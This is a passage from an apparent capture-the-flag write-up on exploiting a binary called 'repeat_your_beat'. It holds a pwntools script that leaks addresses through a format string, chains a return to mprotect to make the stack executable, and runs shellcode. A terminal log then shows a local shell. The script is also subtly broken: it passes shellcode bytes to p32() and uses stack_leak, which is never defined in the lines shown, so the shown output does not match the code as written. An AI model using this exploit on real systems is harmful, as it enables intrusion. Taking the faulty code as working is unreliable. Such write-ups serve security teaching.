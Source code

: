 ```python

# Calculated using gdb for the patched binary with their server's libc and ld
saved_eip_offset = -40 # After main finishes, goes back to __libc_start_main()
input_buffer_offset = -328
# Getting value at __libc_stack_end to get a page-aligned value for stack
p.sendline(b"%8$s" + p32(ld.symbols["__libc_stack_end"]))
stack_end = u32(p.recvline()[:4])
# Shellcode generated using pwntools
shellcode = asm(shellcraft.i386.linux.sh)
payload = p32(shellcode)
payload += b"\xcc"*(260 - len(payload)) # offset upto the address which will be popped into ecx: pop ecx
payload += p32(stack_leak + saved_eip_offset + 4) # fixing ecx to give esp it's original value
payload += b"JUNK"*2 # junk for ebx and ebp
payload += b"A"*16 # Junk upto return address
payload += p32(libc.sym.mprotect) # jmp to mprotect
payload += p32(stack_leak + input_buffer_offset) # return address for mprotect
payload += p32(stack_end & -0x1000) # addr for the mprotect to make executable. Need to have a page-aligned value
payload += p32(0x1000) # length for mprotect to change permission
payload += p32(7) # permission to be set

p.sendline(payload)
p.recv()
p.interactive()
p.close()
```
If you would like me to explain where I got all of that from, you can come and talk to me :)

If we now run the exploit:
```bash
euan@euanb26  assets  python3 exploit.py
[*] '[some_path]/repeat_your_beat'
   Arch:     i386-32-little
   RELRO:    Full RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[*] '[some_path]/ld-2.27.so'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Starting local process '[some_path]/repeat_your_beat': pid 31634
[*] '[some_path]/libc-2.27.so'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    Canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Libc leak = 0xf7f3f5c0
[+] Binary leak = 0x565dc637
[+] Stack leak = 0xff98b884
[+] Libc @ 0xf7d67000
[+] Ld @ 0xf7f49000
[+] Binary @ 0x565dc000
[*] Switching to interactive mode
$ whoami
euan
$  
```
Boom, we've exploited it locally. Now moving it to remote and tweaking the exploit a bit to cater for that: